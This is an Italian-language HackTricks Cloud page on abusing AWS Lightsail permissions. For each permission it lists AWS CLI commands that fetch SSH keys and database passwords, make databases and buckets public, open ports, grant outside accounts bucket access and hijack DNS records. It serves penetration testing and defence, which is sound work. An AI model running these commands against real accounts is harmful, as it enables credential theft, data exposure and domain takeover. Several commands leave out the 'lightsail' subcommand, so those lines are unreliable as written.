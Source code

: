 # AWS - Lightsail Privesc

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Lightsail

Per ulteriori informazioni su Lightsail controlla:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
È importante notare che Lightsail **non utilizza i ruoli IAM appartenenti all'utente** ma a un account gestito da AWS, quindi non puoi abusare di questo servizio per privesc. Tuttavia, **dati sensibili** come codice, chiavi API e informazioni sul database potrebbero essere trovati in questo servizio.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Questo permesso ti permetterà di ottenere le chiavi SSH per accedere alle istanze:
```
aws lightsail download-default-key-pair
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno delle istanze.

### `lightsail:GetInstanceAccessDetails`

Questa autorizzazione ti permetterà di generare chiavi SSH per accedere alle istanze:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno delle istanze.

### `lightsail:CreateBucketAccessKey`

Questo permesso ti permetterà di ottenere una chiave per accedere al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Questo permesso ti permetterà di ottenere le credenziali per accedere al database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impatto Potenziale:** Trova informazioni sensibili all'interno del database.

### `lightsail:UpdateRelationalDatabase`

Questo permesso ti permetterà di cambiare la password per accedere al database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Se il database non è pubblico, puoi anche renderlo pubblico con queste autorizzazioni con

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impatto Potenziale:** Trovare informazioni sensibili all'interno del database.

### `lightsail:OpenInstancePublicPorts`

Questo permesso consente di aprire porte su Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso a porte sensibili.

### `lightsail:PutInstancePublicPorts`

Questo permesso consente di aprire porte su Internet. Nota che la chiamata chiuderà qualsiasi porta aperta non specificata in essa.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso a porte sensibili.

### `lightsail:SetResourceAccessForBucket`

Questa autorizzazione consente di dare a un'istanza accesso a un bucket senza credenziali aggiuntive.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impatto Potenziale:** Potenziale nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateBucket`

Con questo permesso un attaccante potrebbe concedere al proprio account AWS accesso in lettura sui bucket o addirittura rendere i bucket pubblici per tutti:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impatto Potenziale:** Potenziale nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateContainerService`

Con questi permessi, un attaccante potrebbe concedere accesso a ECR privati dal servizio di container.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impatto Potenziale:** Ottenere informazioni sensibili da ECR privato

### `lightsail:CreateDomainEntry`

Un attaccante con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (presa di possesso del sottodominio), o creare un record SPF che gli consente di falsificare email dal dominio, o addirittura impostare il dominio principale al proprio indirizzo IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Prendere il controllo di un dominio

### `lightsail:UpdateDomainEntry`

Un attaccante con questo permesso potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (presa di controllo del sottodominio), o creare un record SPF che gli consente di falsificare email dal dominio, o addirittura impostare il dominio principale al proprio indirizzo IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Prendere il controllo di un dominio

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
